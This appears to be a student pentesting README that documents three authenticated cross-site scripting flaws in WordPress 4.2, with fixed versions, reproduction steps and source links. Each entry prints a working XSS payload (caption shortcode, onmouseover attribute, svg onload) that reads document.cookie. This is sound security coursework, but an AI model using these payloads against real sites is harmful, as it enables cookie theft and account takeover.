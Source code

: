 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [ ] GIF Walkthrough: ![](xss1.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss1[caption width="100" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(document.cookie)'">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/media.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.3.1/src/wp-includes/shortcodes.php)
    
2. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](xss2.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```xss2```
    - ``` ```
    - ```<a href="[caption code=">]</a><a title=" onmouseover=alert(document.cookie)  ">Click me</a>```
    - Go to the post and place the mouse cursor over the text "Click me"
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-embed.php)
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/formatting.php)
    - [Link 3](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/kses.php)
    - [Link 4](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/shortcodes.php)
    
2. (Required) Authenticated Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting
    - Tested in version: 4.2
    - Fixed in version: 4.4.1
  - [ ] GIF Walkthrough: ![](xss3.gif)
  - [ ] Steps to recreate: 
    - Create a new post with the following payload in the body
    - ```http://wpdistillery.vm/wp-admin/customize.php?theme=<svg onload=alert(document.cookie)>```
    - Go to the post
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2.3/src/wp-includes/class-wp-theme.php)
    
## Assets

  - xss1.gif
  - xss2.gif
  - xss3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## License

    Copyright [YongJun Cho] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
